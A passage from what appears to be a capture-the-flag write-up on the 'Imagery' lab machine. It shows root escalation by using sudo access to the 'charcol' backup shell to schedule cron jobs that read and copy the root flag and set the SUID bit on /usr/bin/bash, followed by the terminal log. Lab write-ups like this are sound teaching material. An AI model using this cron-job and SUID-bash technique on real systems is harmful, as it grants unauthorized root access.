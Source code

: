 It provides a backup and fetch system that can encrypt, list, and extract files. The interactive shell (`charcol shell`) allows commands like `backup`, `fetch`, `extract`, and `auto add` for cron jobs.

This is useful because if we can control or misuse these commands, we might be able to **read or extract sensitive files**, or **execute system commands** through automated tasks.

### Exploiting job entries

The app’s `auto add` feature lets users save any shell command as a scheduled job. We can see this from the job entries in `auto list` and the saved command text. Because scheduled jobs may run with higher privileges, this lets an us run arbitrary commands and could lead to gaining elevated (root) access.

```bash
# Read
auto add --schedule "* * * * *" --command "cat /root/root.txt" --name "r" --log-output /tmp/cat.txt

# Copy
auto add --schedule "* * * * *" --command "cp /root/root.txt /tmp/copy.txt" --name "copy" --log-output /tmp/copy.txt

# Gain Root Acces
auto add --schedule "* * * * *" --command "chmod +s /usr/bin/bash" --name "r00t" --log-output /tmp/r00t.txt
```

These are three scheduled jobs with intents to **read a privileged file**, **copy a privileged file to /tmp**, and **attempt privilege escalation**.

## Shell as root

```bash
mark@Imagery:/$ sudo charcol shell

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                    
                                                                    
                                                                    
Charcol The Backup Suit - Development edition 1.0.0

[2025-10-09 17:35:24] [INFO] Entering Charcol interactive shell. Type 'help' for commands, 'exit' to quit.
charcol> auto add --schedule "* * * * *" --command "chmod +s /usr/bin/bash" --name "rude" --log-output /tmp/rude.txt
[2025-10-09 17:35:27] [INFO] System password verification required for this operation.
Enter system password for user 'mark' to confirm: 

[2025-10-09 17:35:31] [INFO] System password verified successfully.
[2025-10-09 17:35:31] [INFO] Auto job 'rude' (ID: 76ed8f26-7832-4a9e-b5d9-7e5fb1bd8a8f) added successfully. The job will run according to schedule.
[2025-10-09 17:35:31] [INFO] Cron line added: * * * * * CHARCOL_NON_INTERACTIVE=true chmod +s /usr/bin/bash >> /tmp/rude.txt 2>&1
charcol> auto list
[2025-10-09 17:35:38] [INFO] Charcol-managed auto jobs:
[2025-10-09 17:35:38] [INFO]   ID: 76ed8f26-7832-4a9e-b5d9-7e5fb1bd8a8f
[2025-10-09 17:35:38] [INFO]   Name: rude
[2025-10-09 17:35:38] [INFO]   Command: * * * * * CHARCOL_NON_INTERACTIVE=true chmod +s /usr/bin/bash >> /tmp/rude.txt 2>&1
```